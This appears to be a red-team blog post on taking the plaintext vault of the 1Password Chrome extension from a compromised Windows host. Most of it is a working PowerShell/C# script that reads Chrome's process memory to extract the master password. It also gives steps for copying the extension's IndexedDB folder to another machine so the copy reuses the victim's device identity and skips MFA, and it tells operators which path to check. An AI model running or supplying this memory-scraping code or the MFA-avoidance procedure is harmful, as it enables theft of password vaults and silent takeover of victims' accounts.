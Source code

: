 # **1Password Chrome Extension Post-Ex**


### tl;dr

If an operator lands on a host with the 1Password Chrome Extension it is relatively easy to obtain the plaintext passwords stored in the vault. Using the local indexedDB you can "avoid MFA" (it is by design) on 1Password's Chrome Extension. None of this will be new or groundbreaking, I think it is just an area operators might not be looking. 

### Introduction

Red Teaming boiled down is always: get access -> pivot -> get more access until you get where you need to -> plunder. With everything moving to the magical cloud; browsers, and by proxy browser extensions can become single points of failure. So I wanted to think of ways to make life of post-execution easier in obtaining passwords now that well known methods like cookies/lsass are significantly harder to obtain.

With the [rise in use of password managers](https://www.forbes.com/sites/tonybradley/2024/10/24/password-managers-the-essential-defense-against-todays-cyber-threats/) and the secrets they contained I felt that this would be a good start. I chose 1Password because I am a customer but also have to assume almost all password manager extensions suffer from similar "flaws" as there has to be a way to obtain passwords locally/offline. For example, local KeePass DB's use [DPAPI in memory](https://keepass.info/help/base/security.html) once the safe is unlocked. 

### Obtaining Master Password

Obtaining the Master Password is the most difficult step of this attack chain. You could [install a chrome extension](https://syntax-err0r.github.io/Silently_Install_Chrome_Extension.html) or keylog the host or prompt the user, etc.

For this blog we will be scraping Chrome's memory for a string that often aligns with the MasterPassword once it is entered (again--[not new](https://www.cyberark.com/resources/threat-research-blog/extracting-clear-text-credentials-directly-from-chromium-s-memory) ). In my testing on an up to date Windows 11 and chrome this script/method works more than 80% of the time and is usually preceded by “p.” only because of the way it is printed to make it easier. You could also just check ProcessHacker’s strings.

![](assets/masterpassword_extract.png)

```
Add-Type -TypeDefinition @"
using System;
using System.Text;
using System.Runtime.InteropServices;

public class MemoryScanner
{
    [DllImport("kernel32.dll", SetLastError = true)]
    public static extern IntPtr OpenProcess(int dwDesiredAccess, bool bInheritHandle, int dwProcessId);

    [DllImport("kernel32.dll", SetLastError = true)]
    public static extern bool ReadProcessMemory(IntPtr hProcess, IntPtr lpBaseAddress, byte[] lpBuffer, int dwSize, out int lpNumberOfBytesRead);

    [DllImport("kernel32.dll", SetLastError = true)]
    public static extern int VirtualQueryEx(IntPtr hProcess, IntPtr lpAddress, out MEMORY_BASIC_INFORMATION lpBuffer, uint dwLength);

    [DllImport("kernel32.dll", SetLastError = true)]
    public static extern bool CloseHandle(IntPtr hObject);

    [StructLayout(LayoutKind.Sequential)]
    public struct MEMORY_BASIC_INFORMATION
    {
        public IntPtr BaseAddress;
        public IntPtr AllocationBase;
        public uint AllocationProtect;
        public IntPtr RegionSize;
        public uint State;
        public uint Protect;
        public uint Type;
    }

    public static string ScanMemory(int processId, string searchString, int extraCharacters)
    {
        const int PROCESS_QUERY_INFORMATION = 0x0400;
        const int PROCESS_VM_READ = 0x0010;
        IntPtr processHandle = OpenProcess(PROCESS_QUERY_INFORMATION | PROCESS_VM_READ, false, processId);

        if (processHandle == IntPtr.Zero)
        {
            return "Failed to open process.";
        }

        IntPtr address = IntPtr.Zero;
        MEMORY_BASIC_INFORMATION mbi;
        byte[] searchBytes = Encoding.Unicode.GetBytes(searchString);

        while (VirtualQueryEx(processHandle, address, out mbi, (uint)Marshal.SizeOf(typeof(MEMORY_BASIC_INFORMATION))) != 0)
        {
            if (mbi.State == 0x1000 && (mbi.Protect & 0x04) != 0) // MEM_COMMIT & readable pages
            {
                byte[] buffer = new byte[(int)mbi.RegionSize];
                int bytesRead;
                if (ReadProcessMemory(processHandle, mbi.BaseAddress, buffer, buffer.Length, out bytesRead) && bytesRead > 0)
                {
                    for (int i = 0; i <= buffer.Length - searchBytes.Length; i++)
                    {
                        bool match = true;
                        for (int j = 0; j < searchBytes.Length; j++)
                        {
                            if (buffer[i + j] != searchBytes[j])
                            {
                                match = false;
                                break;
                            }
                        }
                        if (match)
                        {
                            int totalBytesToExtract = searchBytes.Length + (extraCharacters * 2); // Unicode is 2 bytes per char
                            if (i + totalBytesToExtract > buffer.Length)
                            {
                                totalBytesToExtract = buffer.Length - i; // Ensure we don't go out of bounds
                            }

                            string extractedText = Encoding.Unicode.GetString(buffer, i, totalBytesToExtract);
                            CloseHandle(processHandle);
                            return extractedText;
                        }
                    }
                }
            }
            address = new IntPtr(mbi.BaseAddress.ToInt64() + mbi.RegionSize.ToInt64());
        }

        CloseHandle(processHandle);
        return "String not found.";
    }
}
"@ -Language CSharp

function Search-ProcessMemory {
    param (
        [int]$TargetPID,  # Using a non-reserved variable name
        [string]$SearchString,
        [int]$ExtraCharacters = 20  # Number of extra characters to extract after the match
    )

    $process = Get-Process -Id $TargetPID -ErrorAction SilentlyContinue
    if ($process) {
        Write-Host "Scanning memory of process: $($process.ProcessName) (PID: $($process.Id))"
        $result = [MemoryScanner]::ScanMemory($process.Id, $SearchString, $ExtraCharacters)
        Write-Host $result
    } else {
        Write-Host "Process with PID $TargetPID not found."
    }
}

$chromeProcesses = Get-Process chrome -ErrorAction SilentlyContinue
$SearchString = "Enter your password"

foreach ($proc in $chromeProcesses) {
Search-ProcessMemory -TargetPID $proc.id -SearchString $SearchString -ExtraCharacters 500 }

```

### The Curious Case Of MFA

While perusing 1Passwords [support documents](https://blog.1password.com/should-protect-1password-with-2fa/) on MFA I noticed the line "When turned on, a second factor will be required to add your account on a new device, in addition to your 1Password account password and Secret Key.” The word “new” was interesting to me. I knew from reversing the extension there was an associated device identifier but what if we can mimic/copy that id? I am sure there are some complicated checks/hashes/etc. that go into it but what I realized was if we copy over the local extension files the chrome extension saw the same device identifier, which means no MFA prompt or alerting to the user. 

Steps to reproduce:

- Install Chrome in fresh VM
- Install the 1Password Extension for Chrome
- Copy over ‘%localappdata%\Google\Chrome\User Data\Default\IndexedDB\chrome-extension_aeblfdkhhhdcdjpifhhbdiojplfjncoa_0.indexeddb.leveldb’ and everything underneath to the VM from the victim's machine 
- Enter in the MasterPassword


### Conclusions

If you are an operator and land on a machine it is worth your while to check to see if '%localappdata%\Google\Chrome\User Data\Default\Extensions\aeblfdkhhhdcdjpifhhbdiojplfjncoa' exists. I also want to be clear--this is not a knock on 1Password as I believe in the product (although it would be nice to add a feature to require MFA at every login). Again, none of this is new or novel or ultimately a vulnerability, we are just abusing legitimate features of software but the payout for an operator could be big. 

### Future Work

I think that once the local DB is decrypted on the victim machine there might be a way to obtain these from the IndexedDB despite the file lock without knowing the MasterPassword

